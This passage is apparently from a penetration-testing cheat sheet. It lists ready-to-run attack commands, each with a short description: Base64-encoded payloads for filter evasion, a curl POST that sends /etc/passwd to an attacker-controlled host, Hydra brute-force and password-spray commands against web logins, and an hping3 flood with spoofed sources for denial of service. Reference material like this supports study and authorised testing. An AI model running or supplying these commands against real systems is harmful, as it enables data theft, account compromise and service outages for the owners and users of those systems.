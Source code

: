 *   **Tool:** \[\[cURL]]

    ```bash
    echo -n 'payload' | base64
    curl http://<target_ip>/?cmd=$(echo 'payload_base64' | base64 -d)
    ```
* **Description:** Encodes payloads in Base64 or other formats to bypass security filters.

### Data Exfiltration

#### Data Exfiltration via HTTP

*   **Tool:** \[\[cURL]], \[\[WGet]]

    ```bash
    curl -X POST -d "data=$(cat /etc/passwd)" http://<attack_ip>/exfil
    ```
* **Description:** Exfiltrates data from the target server to an external server using HTTP POST requests.

## Exploits and Attacks

### Password Attacks

#### Password Brute Force

*   **Tool:** \[\[Hydra Cheat Sheet]]

    ```bash
    hydra http-post-form "http://<target_ip>/login:username=^USER^&password=^PASS^:F=incorrect" -l <username> -P <password_list>
    ```
* **Description:** Test a single username against multiple passwords.

#### Password Spray

*   **Tool:** \[\[Hydra Cheat Sheet]]

    ```bash
    hydra http-post-form "http://<target_ip>/login:username=^USER^&password=^PASS^:F=incorrect" -l <username_list> -P <password>
    ```
* **Description:** Test a multiple usernames against a single password.

### Denial of Service

#### TCP/UPD Flood Attack

*   **Tool:** \[\[HPing3 Cheat Sheet]]

    ```bash
    hping3 <target_ip> -p <target_port> --flood --rand-source -c 1000
    ```
* **Description:** Flooding the port with connection attempts, potentially leading to a denial of service.
